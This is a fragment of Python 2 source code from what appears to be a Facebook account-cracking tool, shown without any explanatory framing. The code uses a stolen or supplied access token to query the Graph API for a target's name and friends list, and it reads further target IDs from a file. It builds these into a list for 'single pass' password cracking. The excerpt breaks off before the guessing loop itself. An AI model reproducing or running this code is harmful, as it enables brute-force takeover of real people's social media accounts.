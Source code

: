         try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     SINGLE PASS CRACKING'
            print '\x1b[1;97m======================================================='
            print '[+] CLONING FROM : \x1b[1;92m' + q['name']
        except KeyError:
            print '\tInvalid id link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            choice()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rx == '4':
        os.system('clear')
        print logo
        print '\t     SINGLE PASS FILE CRACK'
        print '\x1b[1;97m======================================================='
        
        try:
            filelist = raw_input('[?] INPUT FILE NAME : \x1b[1;92m')
            for line in open(filelist, 'r').readlines():
                id.append(line.strip())
        except (KeyError, IOError):
            print '\t    \x1b[1;38mRequested file not found\x1b[0;98m'
            raw_input(' Press enter to back ')
            choice()
        

    if rx == '3':
        os.system('clear')
        print logo
        print '\t     SINGLE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[1] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
